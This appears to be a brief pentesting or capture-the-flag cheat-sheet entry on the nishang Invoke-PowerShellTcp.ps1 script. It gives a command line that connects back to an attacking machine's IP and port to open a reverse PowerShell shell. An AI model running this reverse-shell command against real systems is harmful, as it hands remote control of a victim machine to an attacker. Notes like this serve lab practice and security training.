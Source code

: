 # nishang

## Invoke-PowershellTCP.ps1

Add the line below at the end of the script. Specify the IP address of attacking machine and the port you want to reveived your reverse shell back. 

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```
​